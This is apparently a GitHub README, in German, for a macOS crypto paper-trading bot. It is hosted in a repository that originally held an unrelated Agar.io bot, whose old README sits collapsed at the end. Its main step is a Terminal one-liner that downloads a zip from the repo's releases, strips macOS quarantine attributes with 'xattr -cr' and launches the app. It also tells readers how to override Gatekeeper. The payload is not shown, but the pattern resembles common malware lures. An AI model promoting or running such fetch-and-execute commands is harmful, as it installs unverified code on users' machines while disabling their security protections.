



# GoMining Bot Pro für macOS

Papierhandel-Bot für **GOMINING/USDT** auf BingX Spot: echte Live-Kurse, Orderbuch und Trades, aber **nur simulierte
Orders** – es wird nie echtes Geld gehandelt.

### ⬇️ [App herunterladen (neueste Version)](https://github.com/sebastian10099/Agar.io-bot/releases/latest/download/GoMining-Bot.zip)

Am einfachsten: Programm **Terminal** öffnen (Cmd + Leertaste, „Terminal“, Enter), diese Zeile einfügen, Enter drücken.
Die App **GoMining Bot Pro** (blau-violettes Symbol mit „PRO“) landet auf dem Desktop und startet sofort:

```bash
pkill -x GoMiningBotPro; T="$(mktemp -d)" && curl -fL -o "$T/app.zip" https://github.com/sebastian10099/Agar.io-bot/releases/latest/download/GoMining-Bot.zip && ditto -x -k "$T/app.zip" "$T" && rm -rf ~/Desktop/"GoMining Bot Pro.app" && mv "$T/GoMining Bot Pro.app" ~/Desktop/ && { xattr -cr ~/Desktop/"GoMining Bot Pro.app"; open ~/Desktop/"GoMining Bot Pro.app"; }
```

Alle Versionen und Neuerungen: [Releases](https://github.com/sebastian10099/Agar.io-bot/releases) ·
Anleitung, Funktionen und Grenzen: [GoMiningBot/README.md](GoMiningBot/README.md) ·
Was als Nächstes kommt: [Roadmap](GoMiningBot/ROADMAP.md)

| Übersicht | Handel |
|---|---|
|  |  |
| **Statistik** | **Backtest** |
|  |  |

*Bilder mit Live-Daten von BingX, automatisch bei jedem Build aufgenommen.*

Im Browser geladen und macOS lässt die App nicht starten („In den Papierkorb legen“)? *Fertig* klicken →
*Systemeinstellungen → Datenschutz & Sicherheit* → ganz unten **Dennoch öffnen**. Spätere Updates installiert die App
selbst (Banner „Update verfügbar“).

Hast du noch die alte **GoMining Bot** (dunkles Symbol mit Linie) auf dem Mac? Das ist eine andere, ältere App. Sie kann
in den Papierkorb – Papierkonto und Einstellungen hat GoMining Bot Pro beim ersten Start übernommen.

---

<details>
<summary>Ursprüngliches Projekt in diesem Repository: Agar.io-bot</summary>

## Agar.io-bot
The aim of the project is to create a bot that can play Agar.io

The full coding process is streamed live on http://www.twitch.tv/apostolique

Make sure to install both bot.user.js and launcher.user.js

#Honorable mention
There are other people working on bots, you can check the forks, as well as GamerLio's Github which uses genetic algorithms: https://github.com/leomwu/agario-bot

#How to Install
**Web Tutorial**

http://bot.jlynx.net/

**Videos**

Created by https://www.youtube.com/user/karter61/

https://www.youtube.com/watch?v=Zvq38nmCm1s - Install Tutorial.

https://www.youtube.com/watch?v=x2-DFRnEFBU - Android Tutorial.

#Hotkeys

* Press 'R' if you want to toggle the line and dot drawing.
* Press 'T' if you want to use the manual controls.
* Press 'D' to toggle the dark mode.
* Press 'F' to toggle the show mass option.
* Press 'ESC' for the option menu.

</details>
